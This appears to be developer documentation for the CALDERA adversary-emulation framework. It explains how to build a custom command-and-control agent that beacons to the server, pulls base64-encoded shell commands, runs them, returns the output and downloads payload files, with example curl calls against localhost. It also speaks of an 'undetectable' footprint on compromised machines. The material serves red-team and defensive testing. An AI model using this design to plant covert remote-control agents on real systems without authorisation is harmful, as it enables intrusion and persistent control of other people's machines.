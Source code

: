 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a full representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. You can
extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Types of agents

There are 2 unique types of agents. Determining which one you want is your first step:

1) Direct communication between agent-and-server. HTTP communication is an example.
2) Indirect communication between agent-and-server. Using a trusted 3rd party, like GitHub Gists, is an example.

## Building a direct agent

Start by getting a feel for the HTTP(S) agent endpoints, which are located in the rest_api.py module.
```
POST  /beacon 
POST  /result
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

| Key           | Value  | Notes |
| :------------- |:------------- |:-------------|  
| server        | The location (IP or FQDN) of the C2 server    | |
| platform      | The operating system | The platform is evaluated against the platform field of each ability. Currently you can use windows, darwin or linux |
| host          | The hostname of the machine | |
| username      | The username running the agent | |
| architecture  | The architecture of the host. | |
| executors     | A list of executors allowed on the host | Executors are evaluated against the executor block of each ability. Currently, you can use sh, cmd, psh and pwsh |
| privilege     | The privilege level of the agent process, either User or Elevated | Privilege is evaluated against the optional privilege block of each ability file |
| pid           | The process identifier of the agent | |
| location      | The location of the agent on disk | |
| exe_name      | The name of the agent binary file | |

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of minutes (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded - which will be empty.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[]"}
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Start an operation against your agent, selecting to keep the operation alive forever. 

> If you did not include a platform or executors then the operation will not be able to assign abilities to the agent. 

Re-run the call to /beacon as above, this time including your paw:
```
profile=$(echo '{"paw":"dcoify"}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 24, "watchdog": 0, "instructions": "[
    {"id":"110300-895546","sleep":6,"command":"ZmluZCAvVXNlcnM...", "executor":"sh", "timeout :60, "payload":""},
    ...
    ...
]"}
```

You should get a full list of instructions, each containing:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the shell response to the /result endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"id":$id, "output":$output, "status": $status, "pid":$pid}' | base64)
curl -s -X POST -d $data localhost:8888/result
sleep $instruction_sleep
```

The POST details are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of minutes to allow a dead beacon before killing the agent. 


